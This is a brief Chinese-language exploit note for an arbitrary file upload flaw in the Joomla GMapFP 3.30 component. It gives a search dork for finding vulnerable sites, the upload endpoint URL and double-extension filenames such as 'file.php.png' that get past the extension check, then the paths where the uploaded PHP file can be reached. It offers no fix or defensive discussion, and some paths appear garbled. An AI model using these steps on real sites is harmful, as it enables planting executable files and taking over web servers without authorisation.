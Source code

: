 ```yaml
---
title: "Joomla! component GMapFP 3.30 任意文件上传"
id: zhfly2996
---
```


# Joomla component GMapFP 3.30 任意文件上传

## 一、漏洞简介

关键字:inurl:''com_gmapfp''

## 二、漏洞影响

Joomla Gmapfp Components 3.x

## 三、复现过程

```
http://www.0-sec.org/index.php?option=comgmapfp&controller=editlieux&tmpl=component&task=upload_image 
```

```
file.php.png , file2.php.jpeg , file3.html.jpg ,file3.txt.jpg 
```

目录文件路径

```
http://www.0-sec.o../img/gmapfp/file.php 
```

```
http://www.0-sec.o../img/gmapfp/file.php.png 
```